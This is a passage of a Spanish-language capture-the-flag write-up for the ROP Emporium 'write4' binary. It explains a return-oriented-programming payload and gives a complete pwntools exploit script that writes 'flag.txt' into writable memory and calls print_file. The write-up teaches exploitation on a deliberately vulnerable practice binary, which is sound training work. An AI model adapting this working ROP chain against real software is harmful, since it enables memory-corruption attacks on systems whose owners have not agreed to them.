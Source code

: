 ```
```

### Escribir el exploit

El payload está formado por:
1. Offset de 32 bytes para llenar la pila
2. 8 bytes para sobreescribir el valor que se pusheará a RBP
3. gadget1: pop r14 ; pop r15 ; ret	# Guarda la dirección con permisos de escritura y la cadena "flag.txt" 
4. gadget2: mov [R14], R15 ; ret	# Guarda la cadena "flag.txt" en la dirección con permisos de escritura
5. gadget3: pop rd1 ; ret		# Guarda en RDI la dirección donde se ha escrito la cadena "flag.txt"
6. Dirección de la llamada a la función "print_file"


**exploit.py**

```python
#!/usr/bin/python3
from pwn import *

binary = "./write4"
p = process(binary)

writable_address = 0x601500 # gdb vmmap
print_file = 0x400510

offset = b'A'*32
RBP = b'B'*8

# GADGET 1
gadget = p64(0x400690) # pop R14 ; pop R15 ; ret
gadget += p64(writable_address)
gadget += b'flag.txt'

# GADGET 2
gadget += p64(0x400628) # mov [R14], R15 ; ret

# GADGET 3
gadget += p64(0x400693) # pop RDI ; ret
gadget += p64(writable_address)
gadget += p64(print_file)

p.sendline(offset + RBP + gadget)

# PRINT FLAG
p.recvuntil("you!\n")
print(p.recvline())
exit(0)
```

---
# badchars
